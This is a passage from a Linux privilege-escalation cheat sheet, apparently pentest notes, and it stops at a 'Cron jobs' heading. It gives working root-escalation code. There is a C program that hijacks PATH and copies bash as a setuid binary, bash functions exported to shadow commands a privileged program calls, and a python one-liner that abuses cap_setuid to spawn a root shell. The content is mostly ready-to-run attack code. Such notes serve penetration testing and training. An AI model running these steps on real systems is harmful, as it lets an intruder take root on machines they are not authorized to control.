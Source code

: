 When you find executable called without full path, create your own with same name.

```c
void main(){
    setgid(0);
    setuid(0);
    system("cp /bin/bash /tmp/yz && chmod +s /tmp/yz && /tmp/yz -p");
}
```

Then compile it.

```text
gcc executable.c -o executable
```

And change path to your working directory.

```text
export PATH=/tmp:$PATH
```

### Malicious bash functions

Find out if executable runs any bash commands.

```text
strings <executable>
```

When you find one, create a bash function.

```text
function /command/you/found() {cp /bin/bash /tmp/yz && chmod +s /tmp/yz && /tmp/yz -p}
export -f /command/you/found
```

Again run original executable. But now it will run your bash function instead of original command.

## Capabilities

Kernel 2.2 and higher.

```text
getcap -r / 2>/dev/null
```

You are looking for `+ep` , like this.

```text
/usr/bin/python2.6 = cap_setuid+ep
```

And then: [https://gtfobins.github.io/\#+capabilities](https://gtfobins.github.io/#+capabilities)

```text
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

## Cron jobs
